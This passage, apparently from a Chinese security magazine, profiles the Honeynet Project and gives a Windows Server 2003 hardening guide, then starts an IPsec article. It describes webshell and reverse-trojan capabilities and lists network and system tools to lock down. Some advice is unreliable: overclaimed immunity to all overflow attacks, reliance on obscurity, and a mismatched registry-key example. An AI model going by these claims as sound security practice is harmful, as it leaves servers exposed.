目前，“Honeynet Project”引起了人们极大的兴趣和支持，它将可以帮助安全专家们从更深的层面了解黑客，了解他们对社会的作用、黑客之间的协作办法以及如何使用黑客工具等等。

# 今天的网络安全

在对黑客工具的研究方面，Spitzner 认为目前种类繁多的黑客工具使黑客威胁、攻击和控制网络变得越来越简单。全球网络安全面对的问题与全球反恐面临的问题有许多相似之处。他说：“电脑网络在明处，黑客在暗处。黑客能利用无限资源，随时随地向网络发起进攻。我们现在处于一种真正的全球视野状态下，这种视野让我们看到了无视国界的全球范围的黑客威胁！”

也许 Honeynet Project 所获得的最为激动人心的情报，就是对黑客攻击新类型和新趋势的预警信息了。在涉及数百万美元经济利益的猫捉老鼠的游戏中，这是弥足珍贵的情报——渴求情报的习惯要追溯到 Lance Spitzner 担任美军坦克部队军官时的那段岁月，当时他受到了苏联式的战术训练，并将苏式 T-54 和 T-72 坦克开来开去，以研究其性能。他说，服务器被攻破的重大事件可以提前3到7天预测到，这两种方法可以构成预测性工具的技术基础，也许也可以作为某种攻击探测软件的功能。

Lance Spitzner 领导 Honeynet Project 计划中描述黑客概况的工作。他的研究成果大部分是基于窃听到的黑客之间的谈话，谈话内容揭示了一个丰富繁杂的文化群体，该群体根据攻击水平高低和攻击动机又分为许多阵营。黑客中有的是对网络知之甚少的青少年，他们利用从网上下载的工具发动攻击；有的是职业黑客，青少年所下载的工具就是他们编制的，而且他们自己也会利用新颖方法攻入网站。Lance Spitzner 将黑客的攻击动机分为6大类：金钱、虚荣、好玩、信仰、归属感，以及地位。他说自己非常喜欢网络安全这个职业，因为它每时每刻都在变化着，就如同敌我斗争一样，并且可以同其他人共享学习心得。

另外，他还透露，黑客网上盗取用户信用卡资料的案件层出不穷，揭露出来的只是冰山一角。更多情况下，用户和被侵入公司根本不知道有关机密资料被盗，或者是明明知道，但是为了保护公司名誉也尽量隐瞒。因此，Honeynet Project 的另一位负责人 Schneier 主张把 Honeynet 搞成纯粹研究黑客问题的专业网络！

Lance Spitzner 作为“白帽子”组织的杰出领袖，他以他对网络安全的热情感染着广大的网络安全爱好者们。在他的身上，我们能看到自信、博爱、多谋的特质。现在的 Lance Spitzner 每周拿出40个小时用来工作，20—30小时拿来研究 Honeynet 项目的开发。按照 Lance Spitzner 对 Honeynet Project 的“四步走”计划，2004年是进入第三步的阶段，第四步则是建立一个集中化的 Honeynet 来收集所有架设蜜罐收集到的信息，并用它来分析出对用户有用的信息。不管怎么样，我们祝福 Lance Spitzner：Honeynet Project，一路走好！

刘流：Windows 2003 已经推出很久了，对于该服务器系统的组网技术、安全配置还有很多的网友都不是很熟悉，也有很多朋友直接用 E-Mail 和电话的方式和编辑部取得联系，希望获得这方面的文章和资料，所以我们特约了“服务器焦点”及“中国黑客协会”网站的站长 Net.PK 给我们撰写此文，以解大家在 Windows 2003 的网络组建、安全配置技术等方面的疑惑。

- 难度等级：中
- 适合读者：服务器、网站管理员，入侵爱好者
- 前置知识：Windows 2003 系统的基本操作

本文将会给大家实例介绍 Windows Server 2003 Enterprise Edition 企业服务器的组网技术、安全配置以及一些在 Win2K 系统升级为 Windows 2003 系统后的一些新增功能。大家可以很明显地看到 Windows 2003 系统已经比 Win2K 系统增加了很多的安全性，所以现在选择 Windows 2003 系统作为服务器系统，将会是网络管理员的最佳选择。请不要再问如何架设 ASPX 支持、如何防止脚本木马、如何防止溢出漏洞……文中将有最令你满意的答案！

# 构建 Windows 2003 堡垒主机
## ——Windows 2003 服务器网络组建、安全管理全攻略

文／图 Net.PK

本文先假设你是一个服务器管理员，现在你的服务器使用 Windows 2003 服务器系统，你的服务器需要提供支持的组件有：ASP、ASPX、CGI、PHP、FSO、JMAIL、MySql、SMTP、POP3、FTP、3389 终端服务、远程桌面 Web 连接管理服务等，你会如何实现这样的功能呢？又如何能保证你服务器各方面的安全呢？如果你对这方面的技术很感兴趣，请往下看：

# 安装操作系统时注意

首先，先把你的 Windows 2003 系统安装好，在安装系统时请选择使用 NTFS 文件系统分区，因为该分区可以对你的服务器资源进行加密、权限设置等，如果你的文件系统分区是使用 FAT32 的话，后果不堪设想。假如这台服务器作为一台虚拟主机，给客户提供空间，客户只要在自己的空间里上传一个 WebShell，如 ASP 木马等，那么黑客就能通过这个 ASP 木马取得你的服务器管理权了，这对整个服务器将是没有任何安全性可言的，而这一切就是因为你使用的 FAT32 文件系统不能为你的文件设置访问权限！

> （刘流：国内目前绝大多数虚拟主机上都存在这样的问题，即一个简单的 ASP 木马就可以任意访问同一服务器上其他站点的资源，当然，是具有修改、删除权限的！）

为了系统的安全着想，系统安装好后，还需要给系统设置一个强壮的管理员口令，千万不要使用简单的口令，如 123456。因为网络上大部分被黑客入侵的服务器都是因为系统使用弱口令而被黑的。一个强壮的口令应该包括数字、英文字母、符号等，如密码 k3d8a^1ka76。设置好一个强壮的系统登录口令后，我们就可以安装上面所述的组件服务支持了。还是那句老话：“最少的服务等于最大的安全”。对于一切不需要的服务都不要安装，这样才能保证你服务器的安全性。

# 服务组件安装和服务器的支持

### 1. Windows 2003 自带的各组件安装方法

现在，我们把各种所需的组件都安装到服务器里。默认情况下，CGI、PHP、JMAIL、MySql 并不是 Windows 2003 自带的组件服务，如果需要这些服务支持，大家可以登录 http://www.serverfocus.net 下载上述最新版的服务组件。

在 Windows 2003 系统默认的情况下是已经安装了 Internet 信息服务（IIS）管理器的，而且已经装上了 ASP 及 ASPX 的支持，我们可以这样安装：点击开始菜单→控制面板→添加或删除程序→添加/删除 Windows 组件，然后弹出一个 Windows 组件向导，我们再在这里添加需要安装的各种 Windows 2003 系统自带的组件服务，如图1所示。

上面的“电子邮件服务”主要是让我们使用 Windows 2003 系统自带的组件组建小型企业邮局，而不再依赖于其他外界电子邮局软件，这也是 Windows 2003 系统的一项新功能。

现在再来安装 3389 终端服务远程管理组件。该组件在默认情况下也是没有安装上的，我们在组件向导窗口中勾选终端服务就行了。

> 在 Win2K 系统下的终端服务远程管理屏幕最高只能达到 256 色，而 Windows 2003 终端服务的远程管理屏幕颜色最高可以达到 24 位真彩色，这也算是 Windows 2003 的一项新增功能吧。

再来安装其他的组件支持。点击应用程序服务器，然后点击下面的详细信息按钮，再在该窗口里选择你需要安装的其他服务就可以了。比如 IIS，你可以选择是否安装 ASP.NET 支持等。

其他各项服务都是在 Windows 组件向导里安装的，依照上面的例子勾选好需要安装的组件后，点击确定即可安装，安装过程中可能会提示你放入 Windows 2003 系统的安装光盘，放入光盘就可以了。

### 2. CGI 支持的安装方法

- （1）由于 Windows 2003 系统并不自带 CGI、PHP、MySql 支持，所以需要我们自己安装。我们首先安装 CGI 的支持，把下载的 ActivePerl-5.8.3.809-MSWin32-x86.msi CGI 程序支持软件安装上，安装过程没什么特别的，在这里不再详述。

CGI 在 Windows 2003 的 IIS 6.0 里支持的配置与 Win2K 的 IIS 5 配置有点不同，IIS 6 增加了一些安全性。下面看看 CGI 在 IIS 6 里是如何配置的。

- （2）打开开始菜单→程序→管理工具→Internet 信息服务（IIS）管理器，在弹出的 IIS 管理器窗口中双击本地计算机，会弹出一个关联菜单，右键点击网站选择属性后弹出网站属性窗口，再点击主目录→配置→映射→添加，弹出一个添加/编辑应用程序扩展名映射窗口，我们在可执行文件（X）里输入 `C:\Perl\bin\perlis.dll`，在扩展名（E）里输入 `.cgi`，再选择动作里的限制为（L）：GET，HEAD，POST，TRACE。

如果在 Win2K 里这样配置一下就可以运行 CGI 的脚本了，但在 Windows 2003 下还要点击 Web 服务扩展，再分别选择 Perl CGI Extension 及 Perl ISAPI Extension 选项，允许使用这两个扩展服务。因为这两个 CGI 支持的扩展在默认情况下是禁止使用的，在你没有配置允许这两个组件使用时，你的 CGI 脚本程序将无法正常浏览。Web 服务扩展配置方法如图3所示。

### 3. PHP 支持的安装方法

在 Windows 2003 中，IIS 6 的 PHP 配置与在 Win2K 中也略有不同。在 Windows 2003 下安装很简单，只不过 Windows 2003 在 IIS 6.0 的安全方面下了些功夫，所以安装起来要稍费点功夫。

- 1. 先去服务器焦点网站下载 php-4.3.6-Win32 PHP 支持软件。本人装的是 php-4.3.6-Win32，在安装 php-4.3.6-Win32 之前要保证你的 IIS 6.0 是启动的，并能够正常访问。
- 2. 将 php-4.3.6-Win32 解压到 `c:\php`，把 PHP 目录内的 `php.ini-dist` 文件拷贝到 Windows 目录内，改名为 `php.ini`。根据自身需要修改 `php.ini` 文件内容，如要使用 Session 功能，请建立 `c:\tmp` 目录，并将 `php.ini` 文档内 `session.save_path` 的值设置成为绝对路径 `c:/tmp`，将 PHP 目录内的 `Php4ts.dll` 文件复制到 `c:\Windows\System32` 目录内。
- 3. IIS 6.0 上的 PHP 配置基本上和上例中的 CGI 相同，在 Internet 信息服务（IIS）管理器中双击本地计算机，弹出关联菜单，右键点击网站选择属性后弹出网站属性窗口，再点击主目录→配置→映射→添加，弹出一个添加/编辑应用程序扩展名映射窗口。我们在可执行文件（X）里输入 `c:\php\sapi\php4isapi.dll`，在扩展名（E）里输入 `.php`，选择动作里的限制为（L）：`GET, HEAD, POST, TRACE`。
- 4. 点击 Web 服务扩展→新建 Web 服务扩展，会弹出一个新建服务器扩展窗口，在扩展名（X）下输入 `php`，再在要求的文件（E）里添加地址 `c:\php\sapi\php4isapi.dll`，并勾选设置状态为允许（S）。这样就能让你的 IIS 6.0 支持 PHP 了。

### 4. Jmail 支持的安装方法

先下载 Jmail 支持软件，这是一个可以让你的服务器发出大量电子邮件的免费邮件系统。通过 Jmail，可以使论坛等程序自动向网友注册时填写的邮箱地址发送注册成功邮件，功能强大、简单易用，是 Web 服务器不可缺少的组件。这里我们下载 Jmail v4.4 Professional 版本，安装方法很简单，只需直接双击安装文件 `JMail44_pro.exe`，根据提示安装即可，无须额外的配置。

### 5. MySql 数据库的支持安装方法

- 1. 现在我们以安装 MySql For Windows v3.23.57 版数据库为例。首先下载 MySql For Windows v3.23.57，也可以到 `www.mysql.net` 网站下载 MySql 的最新版本。双击运行 MySql 的 `setup.exe`，根据提示把 MySql 安装在 `C:\Mysql` 的目录下。当把 MySql 装好后，就可以开始配置了。为了让 MySql 在每次系统启动时能自动启动，我们还需进行配置。直接找到 MySql 服务，右键选择启动就可以了。
- 2. MySql 的安全配置。从 MySql 的安装上，可以看出安装过程十分简单，但是安全上又怎么样呢？——熟悉 MySql 的朋友都知道，它有一个致命的缺陷：系统自动建立的默认 ROOT 管理员账号是空口令的。如果我们不给这个管理员 ROOT 账号设置一个口令，那就等于给黑客直接打开了大门。

```
mysqladmin -uroot -p password 你的新密码
```

如何给 ROOT 设置强壮的密码呢？只需在 CMD 下进入 `c:\Mysql\Bin` 目录，然后输入命令：这样黑客将没法使用空口令登录你的 MySql 数据库服务器了。

### 6. 用 Windows 2003 架设小型企业邮局服务器

在本文第二节中，我们已经介绍了在 Windows 组件向导里安装电子邮件服务的方法，我们只须在 Windows 组件向导里勾选 SMTP 及电子邮件服务支持就可以组建电子邮局了。但目前还不支持 Web 收发邮件，只支持 POP3 收发邮件，我们来改进它。

### （1）配置 POP3 服务器

启动 POP3 服务控制台窗口，选中左栏中的 POP3 服务后，点击右栏中的“新域”按钮，弹出“添加域”对话框，接着在域名栏中输入邮件服务器的域名，也就是邮件地址 `@` 后的域名，如“cnhack.cn”，最后点击“确定”按钮。如图6所示：

图6

其中，“cnhack.cn”是在 Internet 上注册的域名，并且该域名在你的域名控制面板中设置了 MX 邮件交换记录，解析到了你现在的 Windows 2003 邮件服务器的 IP 地址上。

现在，我们可以创建用户邮箱了。选中并双击刚才新建的“cnhack.cn”域，在右栏中点击“添加邮箱”，在“邮箱名”栏中输入邮件用户名，本例中输入用户名 cai，然后设置用户密码，最后点击“确定”按钮，就能完成用户邮箱的创建。如图7所示：

图7

## （2）配置 SMTP 服务器

在 IIS 管理器中右键点击“默认 SMTP 虚拟服务器选项”，在弹出的菜单中选择“属性(R)”，进入“默认 SMTP 虚拟服务器选项”，在“IP 地址”下拉列表框中选中邮件服务器的 IP 地址即可，这样一个简单的邮件服务器就架设完成了。完成以上的设置后，用户就可以使用邮件客户端软件连接邮件服务器进行邮件的收发了。在设置邮件客户端软件的 SMTP 及 POP3 地址时，输入邮件服务器的域名“cnhack.cn”就可，至此一个简单的小型电子邮局服务器就配置完成。

## 7．3389 终端服务安全配置

在本文第二节中，我们已经介绍了在 Windows 组件向导里安装 3389 终端服务器的方法，我们只须在 Windows 组件向导里勾选终端服务就可以使用终端服务远程管理服务器了。相信大家都玩过了 3389 肉鸡，网络上大部分被黑客入侵的肉鸡因为开放了 3389，而被人不费吹灰之力就能取得远程管理权。

3389 终端远程管理服务默认的情况下是开放 3389 端口的，只要将我们终端服务默认开放的端口号改一下，那么黑客就很难猜测我们的服务器是否开放终端服务了。修改终端服务器端口号是通过修改 Windows 2003 的注册表来实现的，我们只要修改注册表中的其中一项键值即可。点击“开始菜单→运行”，在运行里输入 Regedit 命令，启动注册表编辑器，然后打开如下键值：[`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\`]，找到键名 PortNumber，双击打开修改键值，然后选择“十进制(D)”，将原来的 3389 端口号改为你想更换的端口号，本例中我们把端口改为 7890。在端口号修改完毕后，我们重新启动计算机使修改的端口号生效，这样别人就没法使用 3389 端口连接你的服务器了。重启完成后，我们以后如果想连接终端服务器，可打开终端服务客户端软件，然后在计算机(C)的右栏中输入你服务器的 IP 地址及端口号，即可登录你的终端服务器。假设我们的服务器 IP 地址为 192.168.0.8，那么我们只要在输入框中输入“192.168.0.8:7890”即可登录终端服务器。其中，IP 与端口号用“:”分隔开。

至此，终端服务器端口修改成功。

## 8．用 IE 远程管理服务器

黑防在 5 期杂志上刊登了《Windows 2003 的 Web 安全远程管理》一文，以下作一些补充。详细内容请看《Windows 2003 的 Web 安全远程管理》。在这里，我们需要补充的是基于 Web 管理中的终端服务，就是说我们可以通过任何一台客户机的 IE 浏览器直接进行远程桌面连接，而不再依赖任何的终端服务客户端工具登录 Windows 2003 的终端服务了。

现在假设我们客户机使用的是 Windows 98 系统，服务器的 IP 地址为 192.168.0.8，我们可在 IE 地址栏中输入地址“http://192.168.0.8:8089”。其中，8089 是远程管理 Web 界面下的 SSL 端口，然后输入管理员的用户名和密码并回车即可登录 Web 远程管理界面。在打开的“服务管理”界面中，点击“维护”，再点击“远程桌面”按钮，就会弹出一个远程桌面管理维护的终端窗口，现在就可以连接到远程服务器的桌面了。在该窗口中，你只要输入管理员的用户名及密码，就能成功登录远程桌面，就像你登录 3389 终端服务一样。

无论是 3389 终端服务，还是 Web 远程桌面管理，都是只允许同时两个连接会话，如果已经有两个以上会话在进行，则新用户将被拒绝进行远程桌面管理登录。必须要等正在登录的原来两个用户其中一个退出登录会话后，你才能登录服务器远程桌面进行管理。

## 9．FTP 服务器配置

在本文第二节中，我们已经介绍了在 Windows 组件向导里安装 FTP 服务器的方法，现在我们开始使用 Windows 2003 系统自带的 FTP 服务架设一台安全的 FTP 服务器。

- 1．为 FTP 服务器建立一个安全的专用 FTP 账号

点计算机管理窗口，我们在里面建立一个供 FTP 客户端登录的账号，用户名为 cnhack，密码为 chinanetpk。在默认的情况下，用户账号为 Users 组，虽然普通用户组对服务器安全影响不大，但出于安全考虑，还是把 Users 组删除，添加到 Guests 用户组。还应在“cnhack 属性”栏里选择远程控制标签，把“启用远程控制”的勾去掉。至此，一个安全的 FTP 账号建立成功。

我们在 D 盘建立一个文件夹 cnhack，然后选择“属性”，在“cnhack 属性”中选择“安全”标签，点击“高级”，去掉“允许父项的继承权限传播到该对象和所有子对象，包括那些在此明确定义的项目(A)”。

在 cnhack 属性的“安全”标签里还剩下一个超级管理员组 Administrators 成员可以管理 cnhack 文件夹，我们再勾选允许超级管理员组成员完全控制该文件夹，这样就给了我们管理员组对 cnhack 文件夹的完全控制权，再给 cnhack 用户管理权限。现在 D:\cnhack 文件夹只允许超级管理员组 Administrators 成员和账号 cnhack 进行管理与访问了，其他账号将不能对 cnhack 文件夹有任何的访问权及修改权限。

- 2．使用 Internet 信息服务(IIS)管理器建立一个安全的 FTP 空间

打开“Internet 信息服务(IIS)管理器”，在里面找到“FTP 站点”→“默认 FTP 站点”，“属性”，出现“默认 FTP 站点属性”对话框，选择“主目录”，把原来默认的地址改为我们刚才建立的文件夹 D:\cnhack。下面会有 3 个选项，分别是“读取、写入、记录访问”，可根据需要勾选，如果是提供给别人下载的 FTP 空间，则不要勾选写入选项；如果需要提供给别人上传及更改 FTP 空间内容的，则需要勾选写入选项。

再来配置使用 cnhack 才能登录这个 FTP。点击“安全账户”，“浏览”，根据提示选择我们刚才建立的 cnhack 用户名，这样就指定了这个空间只有使用我们设置的 cnhack 用户账号才能登录，记住不要勾选下面的“只允许匿名连接”选项。

现在我们再来指定该 FTP 站点的 IP 地址，点击“FTP 站点”，“IP 地址(I)”，在右栏输入框里输入我们本机的 IP 地址即可，还要记得在“TCP/IP 端口(T)”的右输入框里修改当前 FTP 站点的 TCP/IP 端口号，默认情况下是使用 21 端口，如图8所示：

这样，一个安全的 FTP 站点就建立成功了。使用 IIS 6 建立的 FTP 服务器可以使用 IE 及 FTP 客户端软件登录 FTP 空间，方便实用，功能强大，很值得一试。

## 10．IIS6 下防范 WebShell 安全配置

前几节中，我们已经介绍过了如何在 IIS 6 下配置 CGI、PHP。在 Windows 2003 系统下，ASP 和 ASPX 都是系统组件。

- 1．配置一个简单的 WWW 虚拟主机

现在，我们举例如何组建一个 WWW 的虚拟主机网站。打开“Internet 信息服务(IIS)管理器”，双击“网站”展开关联菜单，找到“默认网站”，“属性”，“默认网站属性”，“网站”，在“IP 地址(I)”里输入机器的 IP 地址，“TCP 端口(T)”默认的端口是 80，可以更改。点击“高级(D)”在里面添加或删除域名，以后我们就可以使用域名来访问你的网站了。

我们再来配置这个虚拟主机的 WWW 访问目录，点击“主目录”，在“本地路径(C)”中输入 D:\cnhack，千万不要勾选“写入”项，一般只使用默认的“读取(R)、记录访问(V)、索引资源(I)”就已经足够了。如图9所示：

在“文档”里添加好虚拟主机默认的首页文件名，这样一个简单的虚拟主机服务就配置完成了。如果你已经按上几节所写的配置好，那么现在你的这个虚拟主机将会是已经支持 ASP、ASPX、CGI、PHP、FSO、JMAIL、MySQL、SMTP、POP3、FTP、3389 终端服务、远程桌面 Web 连接管理服务等功能强大的服务器了。

## （2）安全使用 FSO 主机

按我们上一节所说的方法配置的虚拟主机是存在各种 WebShell 威胁的，假如你给朋友开了个虚拟主机空间，那么这个虚拟主机存在的最大安全隐患将会是 FSO 权限问题。FSO 安全隐患在 Win2K 系统里已经是令网管头疼的事了，在 Windows 2003 中这个隐患依然没有得到解决，在没有经过安全配置的虚拟主机上，只要黑客给虚拟主机空间上传一个 ASP 木马，黑客就能利用 FSO 权限浏览服务器里的所有文件，并能复制、删除服务器里的所有文件，甚至能利用 ASP 木马取得服务器管理权，可见 FSO 安全配置的重要性。

如果黑客通过某些手段在你的虚拟主机空间上传了一个 ASP 木马，本例中我们介绍的是黑客们都熟悉的海阳顶端 ASP 木马，这种 WebShell 能通过网页在线更改、编辑、删除、移动、上传、下载服务器上的任意文件，只要黑客给你的服务器传上这个 ASP 木马，你的服务器上的所有文件就会被控制在黑客的手上。黑客能在你的服务器干什么？就是上面提及到的更改、删除、移动……如图10所示：

看到这个图，能想像你的服务器到最后会变成什么样吗？服务器上的资料将没有隐私可言，想黑你服务器上的主页或是删除你服务器上的文件都是点几下鼠标就能办到的了。这种 ASP 木马网络上各黑客网站均有下载，源代码就不写出来了。各黑客网站上还有其他版本的 ASP 木马下载，但基本上都是调用 FSO（Scripting.FileSystemObject）写的。

其实你如果要防范这种攻击，只要把 ASP 中的 FSO（Scripting.FileSystemObject）功能删除就行了，删除 FSO 权限方法就是在 CMD 的命令提示符下输入以下命令：

```bat
Regsvr32 /u c:\Windows\System32\scrrun.dll
```

> 刘流：在实际操作的时候要更改成为你本地系统安装目录的实际路径，但是使用这种方法删除也太绝了一点，如果以后我们想使用 FSO 权限，那就用不了了。所以，建议不要使用这种方法删除 FSO 权限。

显而易见，如果这样做，那么包括站点系统管理员在内的任何人都将不可以使用 FileSystemObject 对象了，这其实并不是站点管理人员想要得到的结果，毕竟我们使用这个对象可以实现方便的在线站台管理，如果连系统管理员都没法使用了，那可就得不偿失了。但是不禁止这个危险的对象又会给自己的站点带来安全漏洞。那么，有没有两全其美的方法呢？有！具体方法如下：

我们可以做到禁止其他人非法使用 FileSystemObject 对象，但是我们自己仍然可以使用这个对象。

方法如下：

查找注册表：`HKEY_CLASSES_ROOT\Scripting.FileSystemObject` 键值，将其更改成为你想要的字符串，比如更改为 `HKEY_CLASSES_ROOT\Scripting.FileSystemObject2`，这样，在 ASP 中就必须这样引用这个对象了：

```asp
Set fso = CreateObject("Scripting.FileSystemObjectnepk")
```

而不能使用：

```asp
Set fso = CreateObject("Scripting.FileSystemObject")
```

如果你使用通常的方法来调用 FileSystemObject 对象就会无法使用。呵呵，只要你不告诉别人这个更改过的对象名称，其他人是无法使用 FileSystemObject 对象的。这样，作为站点管理者，我们就杜绝了他人非法使用 FileSystemObject 对象，而我们自己却仍然可以使用这个对象来方便地实现网站在线管理等功能！

## （3）免 FSO 对象就能使用的 ASP 木马防范方法

对于免 FSO 对象也能使用的 ASP 木马，由于少了 FSO 对象的支持，功能上当然不会很强大，只有浏览服务器上的文件目录、复制、移动文件、执行指定路径的程序文件等功能。以下是当你浏览这个 ASP 木马时所出现的图例（图11）：

你可以通过这个免 FSO 支持的 ASP 木马对服务器上的文件进行任意的复制及移动和执行程序，这个木马程序的功能虽然简单，但是用它来黑一个网站已经足够的了。比如，我们可以把网站的首页移动到其他地方，然后我们再复制一个同名的黑客网页进去就行了，还可使用执行程序功能让服务器执行任意的木马程序以取得服务器的 Admin 管理权等。

（免 FSO 对象的 ASP 木马源代码请看光盘）

你只要把上面的代码写在记事本里，保存扩展名为 .ASP，再传到你的虚拟主机空间就可以运行了。防范免 FSO 支持的 ASP 木马方法如下：

通过上面的代码，我们可以看出这段代码是通过 shell.application 建立 Shell 对象的，我们只要在注册表里查找键值 shell.application 和 wscript.shell，然后把这些键值删除，就能防止这一类的 ASP 木马攻击了，删除这些键值对你的服务器及 ASP 支持等不会造成影响的，所以请放心删除。

各黑客网站上还有各种各样的 WebShell 下载，除了 ASP 的 WebShell 以外，还有 CGI、PHP、JSP 的。基本上都是大同小异，也有一些 WebShell 是调用系统下的 CMD.EXE 命令运行的，但这些调用服务器系统 CMD.EXE 的 WebShell 木马在 Windows 2003 下没法运行，能调用 CMD.EXE 命令的 WebShell 只在 Win2K 下测试通过。在 Windows 2003 下，那些 ASP、CGI、PHP、JSP 的 WebShell 已经不能调用 CMD.EXE 的命令了。

原因很简单，因为 Win2K 下的 CMD.EXE 在默认情况下是能以匿名及来宾权限访问的，而 Windows 2003 系统下，CMD.EXE 命令禁止了“Everyone”匿名访问及“Guests”组的访问权限，所以各种调用 CMD.EXE 的 WebShell 木马都无法运行，这也算是 Windows 2003 系统安全上的一点进步吧。

## 11．配置一台安全的服务器，把各种溢出攻击、反向连接木马拒于门外

上一节中，我们谈到了有些 WebShell 能通过调用系统的 CMD.EXE 命令在服务器上运行 CMD 命令。我们再细想一下，现在网络上流行的溢出攻击，如 WEBDAV 溢出等，攻击成功后，被溢出的服务器就会自动绑定服务器的 CMD.EXE 命令，黑客就会远程连接被溢出成功的服务器的 CMD.EXE 命令行，以取得远程服务器的系统管理权。

既然黑客的溢出攻击是通过溢出工具溢出成功后绑定 CMD.EXE 并以 SYSTEM 系统权限登录服务器的，那么只要我们对 Windows 2003 系统下的 C:\WINDOWS\SYSTEM32\CMD.EXE 文件设置一定的权限，呵呵，那么黑客的这些溢出攻击都将无用武之地了。为了安全起见，我们还要对如 net.exe、cacls.exe、telnet.exe、TFTP.exe、ftp.exe、format.com、mountvol.exe、mshta.exe 等危险程序作出权限设置。因为这些危险的文件默认的情况下都是允许 SYSTEM 权限的用户访问及执行的，只有为这些文件设置了权限，这样才能确保服务器系统真正的安全。设置权限的方法如图12所示：

通过这些安全配置，以后你的服务器就算存在溢出漏洞，就算黑客对你的服务器进行溢出攻击成功，黑客也没法登录你的服务器了，因为一般黑客的溢出攻击都是通过绑定远程溢出攻击服务器的系统 CMD 命令登录的，并且是以 SYSTEM 权限登录，而你在 CMD 的使用权限里删除了所有用户的使用 CMD 权限，只有你正在使用的超级管理员账户才能拥有这个 CMD 命令的使用权，所以黑客就算溢出成功，也没法远程连接并登录你的服务器了。通过最简单的安全配置，就能防范多种未知及已知的溢出攻击，是不是很实用呢？

但这只能是相对的安全，因为有些溢出攻击黑客能直接把反向连接的木马文件传到你的服务器上，并能运行哦。呵呵，如最近出现的 Serv-U 溢出，如果你的 FTP 服务器使用了 Serv-U 的话，你又没有打上最新的安全补丁，让黑客溢出成功了，那么黑客可以不绑定你的 CMD 命令登录你的服务器，而是给你服务器传一个反向连接的木马后门。这种反向连接的后门是通过你的服务器向黑客的机器连接，而黑客只要在自己的机器监听，只要你的服务器中了这种后门，那么就算你的服务器安装了防火墙，并屏蔽了所有不使用的端口，黑客虽然不能正向与你的服务器链接木马后门，但黑客给你传一个反向连接的木马，这个木马是通过你的服务器连接黑客的机器的，只要你的服务器向黑客的机器发出连接请求，黑客就能取得你服务器的控制权，而这种反向木马攻击可以完全不依赖于 Windows 2003 系统下的 CMD.EXE。由此可见，反向连接木马的危害性。

那么，我们如何防止这一类的反向木马攻击呢？方法很简单，那就是安装一个具有防止反向连接木马的防火墙，如天网及金山网镖等。它们都是具有防止反向连接功能的，因为这些防火墙都有应用程序访问网络权限设置功能。服务器上的任何一个程序要访问网络，都会弹出一个警告窗口，必须要服务器的管理员同意允许该应用程序访问网络后，这些程序才能访问网络，这项功能正好用于防范反向木马。

下面举一个例子，如果你的服务器安装了天网防火墙，如果黑客成功溢出了你的 Serv-U 服务器，并给你传了一个反向连接的后门木马，这个后门木马在你的服务器的 C:\MM.EXE，黑客所在 IP 地址是 192.168.0.18，现在黑客要对你服务器的这个反向连接木马进行链接，只要黑客在你服务器上运行了这个反向木马，那么你的天网防火墙就会弹出一个警告窗口，如图13所示：

图13

通过上述配置，我们的服务器已经能抵挡目前已知及未知的任何溢出攻击了，当然这些对于服务器安全来说还不够，我们还要屏蔽掉一些我们不使用的服务端口。方法很简单，在桌面上右键点击“网上邻居”图标，出现菜单，选择“属性”，这时弹出一个“网络连接”的窗口，找到“本地连接”再点击鼠标右键，选择“属性”，弹出“本地连接属性”窗口，选择“Internet 协议（TCP/IP）”，再点击“属性”按钮，弹出“Internet 协议（TCP/IP）属性”窗口，点击“高级(V)”按钮，出现“高级 TCP/IP 设置”窗口，选择“选项”标签，再点击“属性(P)”按钮，这时弹出一个“TCP/IP 筛选”对话框，在这个窗口里设置你需要开放服务的端口，如 FTP 服务需要开放 21 端口，WWW 服务需要开放 80 端口，SMTP 服务需要开放 25 端口，POP3 服务需要开放 110 端口，终端服务需要开放 3389 端口，MySQL 数据库需要开放 3306 端口……

好了，终于写完了。只要你通过了本文所述的方法配置你的服务器，你的服务器将会是一台固若金汤的服务器，目前网络上流行的溢出攻击及一些未知的溢出等攻击方法，以及各种 ASP、ASPX、CGI、PHP、JSP 的 WebShell 攻击等在你的服务器里是无用武之地的。当然，由于笔者技术有限，难免出现错误或者遗漏的地方，还请高手们不吝赐教，欢迎大家访问服务器焦点 http://www.serverfocus.net 及中国黑客协会 http://www.cnhack.cn 网站与我交流各种服务器组网与安全技术。

# 命令行下 IPsec 也疯狂

文／彭文波

众所周知，网络攻击常常可能导致系统崩溃以及敏感数据的外泄，因此数据资源必须受到足够的保护，以防被监听、篡改或非法访问。怎样做到这一点呢？在 Windows 系统下通过 IPSec 就可以方便地实现。IPSec 的全称是 Internet Protocol Security，即“Internet 协议安全”。一方面，它可以保护 IP 数据包的内容，另一方面，它可以通过 IPSec 筛选规则来帮助计算机免遭病毒及蠕虫等带来的网络攻击。

## 基础知识

### 1．IPSec 基础知识

实施常用的网络保护策略方式有防火墙、安全路由器（安全网关）以及对拨号用户进行身份认证等。但这些“边界保护”的重点在于抵御来自网络外部的攻击，但不能阻止网络内部的攻击行为。

IPSec（Internet 协议安全）是一个工业标准网络安全协议，为 IP 网络通信提供透明的安全服务，保护 TCP/IP 通信免遭窃听和篡改，可以有效抵御网络攻击，同时保持易用性。IPSec 的两个基本目标是保护 IP 数据包安全和为抵御网络攻击提供防护措施。

IPSec 结合密码保护服务、安全协议组和动态密钥管理三者来实现上述两个目标，不仅能为企业局域网与拨号用户、域、网站、远程站点以及 Extranet 之间的通信提供强有力且灵活的保护，而且还能用来筛选特定数据流。

通常，IPSec 提供的保护需要对系统做一定的修改。IPSec 工作在 IP 传输层，几乎不需要什么额外资源，就可以实现为绝大多数应用系统、服务和上层协议提供较高级别的保护。如果要为现有的应用系统和操作系统配置 IPSec，几乎无须做任何修改，通过几个简单工具、加几条简单命令、安全策略就可对某台主机进行轻松管理。针对个人用户、工作组、应用系统、域、站点或跨国企业等不同的安全要求，网络安全管理员可以配置多种策略以分别满足需求。

### 2．安装 Support Tools

在为基于 Windows 2000 的计算机创建或指定任何新的 IPSec 策略之前，需要对本地计算机进行检查，看计算机是否应用了 IPSec 策略。检查之前，可以通过安装以下工具：http://www.microsoft.com/windows2000/downloads/servicepacks/sp2/supporttools.asp，或者打开 Windows 2000 CD 上的 Support\Tools 文件夹，运行 Setup.exe，安装 Netdiag.exe。然后打开命令提示窗口，将工作文件夹设置为 C:\Program Files\Support Tools。测试命令为：

```bash
netdiag /test:ipsec
```

如果没有指定 IPSec 策略，系统将提示以下消息：

```text
IP Security test . . . . . . . . . : Passed
IPSec policy service is active, but no policy is assigned.
```

### 3．安装 Ipsecpol

